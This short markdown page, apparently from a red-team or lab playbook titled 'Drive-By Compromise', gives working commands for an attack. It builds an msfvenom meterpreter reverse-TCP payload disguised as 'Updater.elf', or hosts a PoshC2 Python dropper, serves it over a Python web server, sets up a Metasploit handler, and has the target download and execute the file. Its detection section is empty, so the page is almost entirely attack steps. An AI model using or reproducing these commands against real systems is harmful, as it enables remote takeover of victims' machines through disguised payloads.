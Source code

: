 # Drive-By Compromise

## **Exploit Description:**

Navigating to the hosted payload and run it on the system.

## Command Syntax
```
Host a file in posh or python server in parrot
Posh:
add-hosted-file
/var/poshc2/<project>/payloads/py_dropper.py
/readme.md
/text/html
N

OR make a msfvenom payload and run a python server
cd ~/Downloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=200.200.200.<ip> LPORT=53 -f elf > /home/parrot/Downloads/Updater.elf
python3 -m http.server

New tab in terminal:
msfconsole
use exploit/multi/handler
set lhost 200.200.200.<ip>
set lport 53
set payload linux/x86/meterpreter/reverse_tcp
exploit

Open a browser

Navigate to the parrot ip
http://200.200.200.<ip>/<uri or filename>

chmod +x <filename>

./<filename>
```

## Detection Techniques
```

```